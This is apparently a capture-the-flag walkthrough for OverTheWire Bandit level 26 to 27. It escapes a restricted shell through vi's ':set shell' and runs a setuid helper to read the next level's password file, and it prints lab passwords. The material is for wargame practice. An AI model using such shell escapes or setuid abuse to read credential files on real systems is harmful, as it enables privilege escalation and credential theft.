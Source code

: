 <h1>Bandit 26 &#x2192; Bandit 27 </h1>

<h2 id="level-goal">Level Goal</h2>
<p>Good job getting a shell! Now hurry and grab the password for bandit27!</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>ls</p>

<h1>Solution</h1>

```
user@host:~$ ssh bandit26@bandit.labs.overthewire.org -p 2220
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

So we know this does not work because we get logged out immediately. We need to go back to level 25, resize the terminal again, log into bandit 26 again and try to obtain a shell.

```
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
v
:set shell ?
    shell=/usr/bin/showtext
:set shell=/bin/bash
:set shell ?
    shell=/bin/bash
:shell
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ file bandit27-do
bandit27-do: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8e941f24b8c5cd0af67b22b724c57e1ab92a92a1, not stripped
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```

[bandit level 26](26.md)
	[bandit level 28](28.md)
